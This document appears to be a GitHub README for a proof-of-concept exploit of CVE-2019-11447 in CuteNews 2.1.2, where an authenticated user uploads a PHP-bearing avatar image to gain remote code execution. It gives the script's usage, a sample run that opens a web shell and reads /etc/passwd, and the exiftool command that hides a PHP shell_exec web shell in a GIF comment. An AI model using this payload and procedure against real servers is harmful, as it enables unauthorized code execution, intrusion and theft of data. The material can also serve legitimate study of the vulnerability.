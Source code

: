 # CVE-2019-11447-POC
CuteNews 2.1.2 Exploit - CVE-2019-11447 Proof-Of-Concept

POC by CRFSlick, discovered by AkkuS <Özkan Mustafa Akkuş>

The official CVE explanation is a bit confusing, so here's my take on it. If you are authenticated with CuteNews, not necessarily as an admin, then you can change certain things about your profile. One of those things that you can change is your profile image. If you upload a profile image and change the extension of your image to '.php', then you can easily visit the image under \<base uri\>/uploads and opening it will cause the webserver to load the file as PHP. Knowing this, you can embed valid PHP code inside of the metadata of your profile image to execute arbitrary code.

## Usage
```bash
Usage:
	CVE-2019-1144.py <username> <password> <base uri / login page>
Example:
	CVE-2019-1144.py admin p4ssw0rd http://192.168.1.19/CuteNews/index.php
```

```bash
┌──(slick㉿kali)-[~/CVE-2019-11447-POC]
└─$ python3 CVE-2019-11447.py admin p4ssw0rd http://192.168.1.19/CuteNews/index.php
-.-. --- --- .-..    .... ....- -..- --- .-.    -... .- -. -. . .-.
[*] Detected version 'CuteNews 2.1.2'
[*] Grabbing session cookie
[*] Logging in as admin:p4ssw0rd
[+] Login Success!
[*] Grabbing __signature_key and __signature_dsi needed for pofile update request
[+] __signature_key: 45ad06a9fc89f75e7ef046a11079c33d-admin
[+] __signature_dsi: 71e41d6500f2dc51d0606f64539f84b1
[*] Uploading evil avatar... Done!
[*] Validating that the file was uploaded... Yup!
[+] http://192.168.1.19/CuteNews/uploads/avatar_admin_5629.php?cmd=<cmd>
[*] Looks like everything went smoothly, lets see if we have RCE!
[*] Keep in mind that this shell is limited, no STDERR

$> whoami
www-data

$> cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Evil GIF

The evil gif was grabbed from the internet and then modified using exiftool in order to insert the needed PHP
```bash
┌──(slick㉿kali)-[~/CVE-2019-11447-POC]
└─$ exiftool -Comment='<?php echo "'"\n\ndGhpc3dlYnNoZWxsb3V0cHV0c3RhcnRzaGVyZQ==\n\n\n"'"; echo shell_exec($_GET["'"cmd"'"]); echo "'"\n\ndGhpc3dlYnNoZWxsb3V0cHV0ZW5kc2hlcmU=\n\n"'";?>' sad.gif
```

Exiftool will show the metadata of the image where you will find the placed PHP code inside of the comment
```bash
┌──(slick㉿kali)-[~/CVE-2019-11447-POC]
└─$ exiftool sad.gif 
ExifTool Version Number         : 12.05
File Name                       : sad.gif
...
Comment                         : <?php echo "\n\ndGhpc3dlYnNoZWxsb3V0cHV0c3R...
```

## Sources
+ https://nvd.nist.gov/vuln/detail/CVE-2019-11447
+ http://pentest.com.tr/exploits/CuteNews-2-1-2-Remote-Code-Execution-Metasploit.html



## Disclaimer
This project is intended for educational purposes only and cannot be used for law violation or personal gain.
The author of this project is not responsible for any possible harm caused by the materials.
